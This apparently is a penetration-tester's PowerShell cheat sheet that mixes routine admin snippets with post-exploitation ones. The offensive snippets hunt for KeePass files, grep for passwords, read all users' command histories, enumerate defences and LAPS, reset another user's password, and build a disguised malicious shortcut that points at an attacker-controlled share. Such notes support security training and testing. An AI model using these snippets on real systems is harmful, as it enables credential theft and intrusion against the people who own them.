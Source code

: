 # Using PowerShell

Various snippets.

## Creating a Credential Object

```powershell
$user = "DOMAIN\luser"
$pass = "Secr1tP4ss!"
$sspass = ConvertTo-SecureString $pass -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ($user, $sspass)
```

## Changing Another User's Password

```powershell
Set-ADAccountPassword -Identity "luser" -NewPassword (ConvertTo-SecureString "NewPassword123" -AsPlainText -Force) -Reset
```

## Using `EnterPSSession` to Access Another Machine

```powershell
Enter-PSSession -ComputerName COMPUTER-MS01 -Credential $cred
```

## Finding Files

```powershell
Get-PSDrive -PSProvider FileSystem | % { Get-ChildItem $_.Root -Filter "*.kdbx" -Recurse -ErrorAction SilentlyContinue }
```

## Searching Files

```powershell
Get-ChildItem -Path C:\ -Recurse -Include *.xml,*.ini,*.txt,*.config | Select-String -Pattern "password" | Format-Table Path, LineNumber, Line
```

## PowerShell History

For all users:

```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

## Show Installed Programs

```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

## Show Scheduled Tasks

```powershell
Get-ScheduledTask | select TaskName,State
```

## Make a `.zip` Archive

```powershell
Compress-Archive -Path C:\Reference\*.* -DestinationPath C:\Archives\Draft.zip
```

## Expand a `.zip` Archive

```powershell
Expand-Archive -Path "C:\path\to\archive.zip" -DestinationPath "C:\path\to\extract\folder"
```

## Show Processes with Users

```powershell
Get-Process | Select-Object Name, Id, @{Name='UserName';Expression={(Get-WmiObject Win32_Process -Filter "ProcessId=$($_.Id)").GetOwner().User}} | Format-Table -AutoSize

```

## Enumerating Windows Security Controls

Check status of Windows Defender with: `Get-MpComputerStatus`

AppLocker: `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

Constrained Language Mode: `$ExecutionContext.SessionState.LanguageMode`

LAPS:

- `Find-LAPSDelegatedGroups`
- `Find-AdmPwdExtendedRights`
- `Get-LAPSComputers`

## Install `activedirectory` PowerShell Module

e.g. for HTB hosts that don't have it enabled by default and don't have Internet access.

```powershell
Add-WindowsFeature RSAT-AD-PowerShell
Import-Module ActiveDirectory
```

## Create a Malicious `LNK`

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\totally-legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@legit.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Important Security Update"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

## Convert a File to Base64

```powershell
[IO.File]::WriteAllText( "/users/luser/x.b64", [Convert]::ToBase64String( [IO.File]::ReadAllBytes("/users/luser/x.zip")))
```

## Test if a TCP Port is Open

```powershell
Test-NetConnection -ComputerName 192.168.1.1 -Port 443
```
